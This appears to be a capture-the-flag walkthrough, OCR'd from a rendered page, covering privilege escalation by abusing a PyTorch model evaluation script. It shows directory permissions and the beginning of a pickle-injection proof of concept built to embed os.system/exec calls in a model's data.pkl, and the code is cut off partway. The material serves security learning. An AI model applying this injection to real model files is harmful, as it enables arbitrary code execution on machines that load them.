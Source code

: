 I will explain this script shortly
```
This script, /usr/bin/evaluate_model, is used to safely evaluate a PyTorch model file (.pth) against a proprietary dataset. Here's what it does, step by step:

Input Check: It expects one argument — the path to the model file.

File Type Detection: Determines whether the file is a .tar (older format) or .zip (newer format) archive.

Extraction: Unpacks the archive to a temporary directory (/opt/temp).

Security Scan: Searches for pickle files (*.pkl), then scans them using fickling to detect malicious code.

Quarantine: If anything malicious is detected, it deletes the model file.

Cleanup: Deletes all extracted files and the temporary directory.

Execution: If the model is safe, it runs /models/evaluate_model.py on the file.
```

So let's check `/model`, check can we write or change
```
jippity@blurry:~$ ls -al /models
total 1068
drwxrwxr-x  2 root jippity    4096 Aug  1  2024 .
drwxr-xr-x 19 root root       4096 Jun  3  2024 ..
-rw-r--r--  1 root root    1077880 May 30  2024 demo_model.pth
-rw-r--r--  1 root root       2547 May 30  2024 evaluate_model.py
```

Let's download them to check what can we exploit:
This blog has show us how to exploit one model
```
https://hiddenlayer.com/innovation-hub/weaponizing-machine-learning-models-with-ransomware/
```

Pickle Code Injection `PoC`
To weaponize the main pickle file within an existing` pre-trained PyTorch model,` we have developed the following example code. It injects the model’s `data.pkl `file with an instruction to execute arbitrary code by using either `os.system`, exec, eval, or the lesser-known `runpy._run_code` method:
**torch_picke_inject.py**
```
import os
import argparse
import pickle
import struct
import shutil
from pathlib import Path

import torch

class PickleInject():
    """Pickle injection. Pretends to be a "module" to work with torch."""
    def __init__(self, inj_objs, first=True):
        self.__name__ = "pickle_inject"
        self.inj_objs = inj_objs
        self.first = first

    class _Pickler(pickle._Pickler):
        """Reimplementation of Pickler with support for injection"""
        def __init__(self, file, protocol, inj_objs, first=True):
            super().__init__(file, protocol)

            self.inj_objs = inj_objs
```